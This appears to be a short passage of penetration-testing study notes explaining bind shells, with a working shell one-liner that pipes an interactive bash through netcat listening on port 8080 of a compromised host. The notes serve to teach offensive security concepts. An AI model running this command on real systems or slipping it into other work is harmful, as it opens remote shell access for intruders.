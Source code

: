 - bind a port on compromised system and listen for a connection, exposes shell so that attacker can connect
- can be used when target does not allow outgoing connections
- easier to detect
- To create a bind shell:
```shell
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | bash -i 2>&1 | nc -l 0.0.0.0 8080 > /tmp/f
```